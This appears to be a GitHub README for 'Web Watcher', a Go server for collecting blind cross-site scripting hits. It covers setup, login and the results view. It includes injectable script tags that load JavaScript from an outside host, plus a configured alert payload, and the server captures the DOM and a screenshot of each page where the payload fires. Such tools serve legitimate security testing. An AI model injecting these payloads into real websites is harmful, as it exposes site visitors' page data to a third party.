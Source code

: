 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher webwatcher/main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  
## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple data from Collector path
This endpoint will contain response specified in `assets/extensions.json` file  
```
  "js": {
    "Extension": [".js", ".mjs"],
    "Content-Type": "application/javascript",
    "Payload": "alert(document.domain)"
  }
```   
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/pichik.js></script>`  
This endpoint use regex `pichik.*` so you can use `pichik-anything/after/counts.html`  

### Collecting data from blind XSS  
You can use any endpoint for testing blind XSS, but dont use your collector path for this, as it have priority, so no blind XSS payload will be send.  
Detailed report will be created, with DOM and Screenshot.  
These request will be sent to slack, if specified in config.  
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  




